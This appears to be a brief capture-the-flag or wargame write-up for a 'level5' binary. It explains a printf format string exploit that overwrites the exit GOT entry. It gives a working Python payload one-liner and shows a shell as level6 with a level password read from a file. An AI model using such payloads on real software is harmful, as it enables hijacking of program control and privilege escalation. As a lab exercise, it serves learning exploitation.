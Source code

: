 Same as the last exercice, `String format exploit` again.

For this one, we need `printf` to evaluate an `eip` address and change the value by `o` function :

`0x8049838` represents `exit` got address, so we apply `%134513824x%4$n` - 4 (exit got address) to change address by `0x080484a4` : 
```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"' ; cat) | ./level5
whoami
level6
cat level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```